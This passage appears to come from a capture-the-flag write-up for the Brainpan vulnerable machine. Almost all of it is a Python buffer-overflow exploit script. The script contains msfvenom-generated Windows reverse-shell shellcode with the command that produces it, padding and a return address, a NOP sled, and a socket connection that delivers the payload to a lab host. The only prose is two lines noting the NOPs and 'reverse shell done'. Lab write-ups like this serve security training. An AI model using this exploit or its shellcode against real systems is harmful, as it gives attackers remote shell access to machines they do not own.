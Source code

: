 ```python
import socket,sys



#msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=4444 -f python -a x86 -b '\x00'

buf =  b""
buf += b"\xbb\x4c\x6c\xb3\x79\xd9\xeb\xd9\x74\x24\xf4\x5a\x33"
buf += b"\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x0e\x03\x16\x62\x51"
buf += b"\x8c\x5a\x92\x17\x6f\xa2\x63\x78\xf9\x47\x52\xb8\x9d"
buf += b"\x0c\xc5\x08\xd5\x40\xea\xe3\xbb\x70\x79\x81\x13\x77"
buf += b"\xca\x2c\x42\xb6\xcb\x1d\xb6\xd9\x4f\x5c\xeb\x39\x71"
buf += b"\xaf\xfe\x38\xb6\xd2\xf3\x68\x6f\x98\xa6\x9c\x04\xd4"
buf += b"\x7a\x17\x56\xf8\xfa\xc4\x2f\xfb\x2b\x5b\x3b\xa2\xeb"
buf += b"\x5a\xe8\xde\xa5\x44\xed\xdb\x7c\xff\xc5\x90\x7e\x29"
buf += b"\x14\x58\x2c\x14\x98\xab\x2c\x51\x1f\x54\x5b\xab\x63"
buf += b"\xe9\x5c\x68\x19\x35\xe8\x6a\xb9\xbe\x4a\x56\x3b\x12"
buf += b"\x0c\x1d\x37\xdf\x5a\x79\x54\xde\x8f\xf2\x60\x6b\x2e"
buf += b"\xd4\xe0\x2f\x15\xf0\xa9\xf4\x34\xa1\x17\x5a\x48\xb1"
buf += b"\xf7\x03\xec\xba\x1a\x57\x9d\xe1\x72\x94\xac\x19\x83"
buf += b"\xb2\xa7\x6a\xb1\x1d\x1c\xe4\xf9\xd6\xba\xf3\xfe\xcc"
buf += b"\x7b\x6b\x01\xef\x7b\xa2\xc6\xbb\x2b\xdc\xef\xc3\xa7"
buf += b"\x1c\x0f\x16\x67\x4c\xbf\xc9\xc8\x3c\x7f\xba\xa0\x56"
buf += b"\x70\xe5\xd1\x59\x5a\x8e\x78\xa0\x0d\xbb\x7c\xa8\xc2"
buf += b"\xd3\x7e\xac\xcd\x7f\xf6\x4a\x87\x6f\x5e\xc5\x30\x09"
buf += b"\xfb\x9d\xa1\xd6\xd1\xd8\xe2\x5d\xd6\x1d\xac\x95\x93"
buf += b"\x0d\x59\x56\xee\x6f\xcc\x69\xc4\x07\x92\xf8\x83\xd7"
buf += b"\xdd\xe0\x1b\x80\x8a\xd7\x55\x44\x27\x41\xcc\x7a\xba"
buf += b"\x17\x37\x3e\x61\xe4\xb6\xbf\xe4\x50\x9d\xaf\x30\x58"
buf += b"\x99\x9b\xec\x0f\x77\x75\x4b\xe6\x39\x2f\x05\x55\x90"
buf += b"\xa7\xd0\x95\x23\xb1\xdc\xf3\xd5\x5d\x6c\xaa\xa3\x62"
buf += b"\x41\x3a\x24\x1b\xbf\xda\xcb\xf6\x7b\xea\x81\x5a\x2d"
buf += b"\x63\x4c\x0f\x6f\xee\x6f\xfa\xac\x17\xec\x0e\x4d\xec"
buf += b"\xec\x7b\x48\xa8\xaa\x90\x20\xa1\x5e\x96\x97\xc2\x4a"


payload = "A"*524
payload = payload + "\xF3\x12\x17\x31"
nop = 20*"\x90"
payload = payload + nop + buf

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('10.0.2.254',9999))
    s.recv(1024)
    s.send(payload)
    s.close()
except Exception as ex:  
    print ex
    print "[X] Connection error"
    sys.exit()
```

- the `20*"\x90"` is 20 nops to make sure that we will jump to our shellcode

- reverse shell done

![image]( /assets/img/brainpan/Pasted image 20210610013722.png)
